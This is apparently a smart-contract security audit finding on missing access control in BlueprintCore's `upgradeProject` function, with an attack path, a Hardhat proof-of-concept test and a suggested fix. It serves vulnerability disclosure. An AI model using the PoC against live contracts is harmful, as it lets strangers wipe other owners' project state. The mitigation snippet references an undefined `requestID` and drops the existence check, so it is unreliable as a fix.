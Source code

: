Feisty Pickle Liger

High

# Unauthorized Users Can Reset Any Project's State Due to Missing Access Controls in upgradeProject Function

### Summary

Lack of access control in the `upgradeProject` function allows any user to reset the state of any project in the system, which could lead to unauthorized state changes, data loss, and potential service disruption in the `BlueprinCore.sol` contract.

### Root Cause

The `upgradeProject` function in particular lacks proper authorization checks, allowing any address to call it and reset critical project data.

[crestal-omni-contracts/src/BlueprintCore.sol:upgradeProject#L198-L203](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L198C1-L203C6)
```solidity
function upgradeProject(bytes32 projectId) public hasProject(projectId) {
    // reset project info
    projects[projectId].requestProposalID = 0; // Should be bytes32(0)
    projects[projectId].requestDeploymentID = 0; // Should be bytes32(0)
    projects[projectId].proposedSolverAddr = dummyAddress;
}
```

### Internal Pre-conditions

The `projects` mapping must contain active projects with valid data

### External Pre-conditions

Valid `projectId` exists in the system

### Attack Path

An attacker could exploit the `upgradeProject` vulnerability through the following steps:

1. Identify active projects in the system by monitoring events or querying the contract
2. Call the `upgradeProject` function with a valid `projectId`
3. The function will reset critical project data without checking if the caller is authorized
4. The project's proposal and deployment IDs will be reset to invalid values (0 instead of bytes32(0))
5. The project's solver address will be reset to the dummy address

### Impact

The successful exploitation of these vulnerabilities could result in:

1. **Service Disruption**: Projects being reset could break the functionality of deployed agents
2. **Data Loss**: Historical deployment records becoming inaccessible
3. **Unauthorized Access**: Malicious actors registering as worker nodes

### PoC

This PoC demonstrates that:

1. A legitimate project can be created and set up with valid data
2. An attacker who is not the project owner can call the `upgradeProject` function
3. The function executes without any authorization checks
4. The project's critical data (proposal ID, deployment ID, solver address) is reset
5. This effectively disrupts the project's functionality

The vulnerability exists because the `upgradeProject` function only checks if the project exists (via the `hasProject` modifier) but does not verify if the caller is authorized to modify the project.

<details><summary>POC</summary>

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("BlueprintCore Vulnerability PoC", function () {
  let blueprintCore;
  let owner;
  let projectOwner;
  let attacker;
  let validProjectId;

  before(async function () {
    // Deploy the contract
    const BlueprintCore = await ethers.getContractFactory("BlueprintCore");
    [owner, projectOwner, attacker] = await ethers.getSigners();
    
    blueprintCore = await BlueprintCore.deploy();
    await blueprintCore.deployed();
    
    // Create a project as the legitimate project owner
    const tx = await blueprintCore.connect(projectOwner).createProjectID(
      "Test Project",
      { from: projectOwner.address }
    );
    
    // Get the project ID from the event
    const receipt = await tx.wait();
    const event = receipt.events.find(e => e.event === 'ProjectCreated');
    validProjectId = event.args.projectId;
    
    console.log(`Project created with ID: ${validProjectId}`);
    
    // Set up the project with some data
    await blueprintCore.connect(projectOwner).createDeploymentRequest(
      ethers.constants.AddressZero, // token address
      validProjectId,
      "base64EncodedProposal",
      "https://example.com",
      { from: projectOwner.address }
    );
  });

  it("Should allow unauthorized reset of project data", async function () {
    // Step 1: Verify the project exists and get its current state
    const projectBefore = await blueprintCore.getProjectInfo(validProjectId);
    console.log("Project before attack:");
    console.log("- Solver Address:", projectBefore[0]);
    console.log("- Proposal ID:", projectBefore[1]);
    console.log("- Deployment IDs:", projectBefore[2]);
    
    // Verify the project has valid data
    expect(projectBefore[1]).to.not.equal(ethers.constants.HashZero);
    
    // Step 2: Call upgradeProject as the attacker (not the project owner)
    console.log("\nExecuting attack as:", attacker.address);
    await blueprintCore.connect(attacker).upgradeProject(validProjectId);
    console.log("Attack executed: Project data reset by unauthorized user");
    
    // Step 3: Verify the project state has been reset
    const projectAfter = await blueprintCore.getProjectInfo(validProjectId);
    console.log("\nProject after attack:");
    console.log("- Solver Address:", projectAfter[0]);
    console.log("- Proposal ID:", projectAfter[1]);
    console.log("- Deployment IDs:", projectAfter[2]);
    
    // Verify the data has been reset
    expect(projectAfter[1]).to.equal(ethers.constants.HashZero);
    expect(projectAfter[0]).to.equal(await blueprintCore.dummyAddress());
    
    console.log("\nVulnerability confirmed: Attacker successfully reset project data without authorization");
  });
});
```

</details>

### Mitigation

It is recommended to add proper access control to `upgradeProject`. And conduct a comprehensive security audit to review all access control mechanisms, verify type safety throughout the contract and ensure business logic consistency.

```solidity
function upgradeProject(bytes32 projectId) public {
+   require(deploymentOwners[requestID] == msg.sender || isAdmin(msg.sender), "Not authorized");
    
    projects[projectId].requestProposalID = bytes32(0);
    projects[projectId].requestDeploymentID = bytes32(0);
    projects[projectId].proposedSolverAddr = dummyAddress;
    
    emit ProjectUpgraded(projectId, msg.sender);
}
```